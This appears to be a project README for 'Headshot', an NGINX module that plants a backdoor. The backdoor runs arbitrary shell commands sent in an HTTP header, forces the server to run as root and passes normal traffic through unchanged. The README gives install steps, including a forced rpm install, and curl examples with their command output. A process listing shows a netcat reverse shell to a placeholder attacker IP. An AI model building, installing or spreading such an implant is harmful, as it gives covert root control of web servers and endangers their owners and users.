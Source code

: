 # Headshot
NGINX module to allow for RCE through a specific header. Also forces NGINX to run as root.


## Installation
There is a install script provided in the repo. It will pull down NGINX and compile it with the module. Then NGINX directory will be setup in `/usr/local/nginx` (NGINX default). After this the `NGX_HTTP_CONTENT_PHASE` is hooked and the module will be running in NGINX. In addition, the rpm file provided can be used to install the exploited NGINX by running the command below.

```
rpm -U nginx-1.12.2-2.el7.x86_64.rpm --nodeps --force
```
In the event of compiling from source [this webpage](https://www.nginx.com/resources/wiki/start/topics/tutorials/installoptions/) maybe helpfule for the configure portion of `install.sh`.


## Usage
To use the Headshot simply supply your command as a value to the `Headshot` HTTP header. The output (stdout or stderr) of your command will be the response body of the command run. If there is no stdout or stderr from the command, then the response body will obviously be empty and a helpful string is returned. An example or two is shown below.

```
[root@localhost Headshot]# curl localhost --header "Headshot: ls -la /tmp"
total 4
drwxrwxrwt.  8 root root 123 Nov 30 11:39 .
dr-xr-xr-x. 17 root root 224 Oct 30 14:11 ..
drwxrwxrwt.  2 root root  19 Nov 29 22:23 .ICE-unix
drwxrwxrwt.  2 root root   6 Oct 30 14:09 .Test-unix
-r--r--r--.  1 root root  11 Nov 29 22:23 .X0-lock
drwxrwxrwt.  2 root root  16 Nov 29 22:23 .X11-unix
drwxrwxrwt.  2 root root   6 Oct 30 14:09 .XIM-unix
drwx------.  2 root root  20 Nov 29 22:24 .esd-0
drwxrwxrwt.  2 root root   6 Oct 30 14:09 .font-unix
[root@localhost Headshot]# curl localhost --header "Headshot: touch /tmp/hello"
<-- no stderr/stdout from your command -->
[root@localhost Headshot]# curl localhost --header "Headshot: ls -la /tmp"
total 4
drwxrwxrwt.  8 root   root   136 Nov 30 11:39 .
dr-xr-xr-x. 17 root   root   224 Oct 30 14:11 ..
drwxrwxrwt.  2 root   root    19 Nov 29 22:23 .ICE-unix
drwxrwxrwt.  2 root   root     6 Oct 30 14:09 .Test-unix
-r--r--r--.  1 root   root    11 Nov 29 22:23 .X0-lock
drwxrwxrwt.  2 root   root    16 Nov 29 22:23 .X11-unix
drwxrwxrwt.  2 root   root     6 Oct 30 14:09 .XIM-unix
drwx------.  2 root   root    20 Nov 29 22:24 .esd-0
drwxrwxrwt.  2 root   root     6 Oct 30 14:09 .font-unix
-rw-rw-rw-.  1 nobody nobody   0 Nov 30 11:39 hello
[root@localhost Headshot]# curl localhost --header "Headshot: not_a_command"
sh: 1: not_a_command: not found
```
If the header is not supplied then the server will respond to requests as normal. See below for example.
```
[root@localhost Headshot]# curl localhost
<!DOCTYPE html>
<html>
<head>
<title>Welcome to nginx!</title>
<style>
    body {
        width: 35em;
        margin: 0 auto;
        font-family: Tahoma, Verdana, Arial, sans-serif;
    }
</style>
</head>
<body>
<h1>Welcome to nginx!</h1>
<p>If you see this page, the nginx web server is successfully installed and
working. Further configuration is required.</p>

<p>For online documentation and support please refer to
<a href="http://nginx.org/">nginx.org</a>.<br/>
Commercial support is available at
<a href="http://nginx.com/">nginx.com</a>.</p>

<p><em>Thank you for using nginx.</em></p>
</body>
</html>
```

For those curious, if one were to setup a reverse shell from this exploit and a blue team member ran `ps -fax` then they would see something like the following output while the shell was active.

```
 17622 ?        Ss     0:00  \_ nginx: master process /usr/local/nginx/sbin/nginx
 17623 ?        S      0:00      \_ nginx: worker process
 17719 ?        S      0:00          \_ sh -c nc -c /bin/bash {YOUR_IP} {YOUR_PORT} 2>&1
 17720 ?        S      0:00              \_ sh -c /bin/bash
 17721 ?        S      0:00                  \_ /bin/bash
```

## Resources
[The foremost resource on NGINX Modules](https://www.evanmiller.org/nginx-modules-guide.html)

[A basic hello world module](https://github.com/perusio/nginx-hello-world-module/)

[The NGINX Source begins to be helpful after you loose sanity](https://github.com/nginx/nginx/)

[The NGINX API Documentation also helps](https://www.nginx.com/resources/wiki/extending/api/utility/)

[Also not a bad small guide](http://www.nginxguts.com/2011/02/http-modules/)
[From the same source as above but goes over NGINX Phases](http://www.nginxguts.com/2011/01/phases/)

[This would be the guide to follow to dynamically link the module](https://www.nginx.com/blog/compiling-dynamic-modules-nginx-plus/)

[This is where I go the idea to hook the NGX_HTTP_CONTENT_PHASE to avoid directive use](http://www.nginx-discovery.com/2011/02/day-21-http-handler-vs-content-phase.html)
